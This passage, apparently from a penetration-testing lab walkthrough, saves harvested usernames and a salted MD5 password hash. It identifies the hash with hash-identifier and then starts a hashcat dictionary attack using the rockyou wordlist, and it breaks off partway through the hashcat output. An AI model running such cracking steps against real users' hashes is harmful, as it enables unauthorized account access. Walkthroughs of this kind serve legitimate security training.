 ## Cracking MySQL Hashes:

Awesome, we got another username, and a SQL Hash of the associated user’s password. Let's first start by saving the username for future reference, along with the other usernames we have.

```console
root@kali:~/gds# nano names
root@kali:~/gds# cat names 
a.modlin@gds.lab
s.locklear@gds.lab
j.wise@gds.lab
e.lindsey@gds.lab
```

Since we got a SQL Hash, let's use [hash-identifier](http://tools.kali.org/password-attacks/hash-identifier) to see what type of hash it is. Then, we can use HashCat to try and crack it!

```console
root@kali:~/gds# nano lindsey_hash
root@kali:~/gds# cat lindsey_hash 
$1$w9aURG9k$Wf1VIpv9VET3v3VWZ4YD8.


root@kali:~/gds# hash-identifier
   #########################################################################
   #	 __  __ 		    __		 ______    _____	   #
   #	/\ \/\ \		   /\ \ 	/\__  _\  /\  _ `\	   #
   #	\ \ \_\ \     __      ____ \ \ \___	\/_/\ \/  \ \ \/\ \	   #
   #	 \ \  _  \  /'__`\   / ,__\ \ \  _ `\	   \ \ \   \ \ \ \ \	   #
   #	  \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \	    \_\ \__ \ \ \_\ \	   #
   #	   \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/	   #
   #	    \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #
   #								 By Zion3R #
   #							www.Blackploit.com #
   #						       Root@Blackploit.com #
   #########################################################################

   -------------------------------------------------------------------------
 HASH: $1$w9aURG9k$Wf1VIpv9VET3v3VWZ4YD8. 

Possible Hashs:
[+]  MD5(Unix)

   -------------------------------------------------------------------------


root@kali:~/gds# hashcat -m 500 -a 0 lindsey_hash /usr/share/wordlists/rockyou.txt 
hashcat (v3.10) starting...

OpenCL Platform #1: Intel(R) Corporation
========================================
- Device #1: Intel(R) Core(TM) i7-5820K CPU @ 3.30GHz, 988/3955 MB allocatable, 4MCU

OpenCL Platform #2: Mesa, skipped! No OpenCL compatible devices found

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Applicable Optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
Watchdog: Temperature abort trigger disabled
Watchdog: Temperature retain trigger disabled

```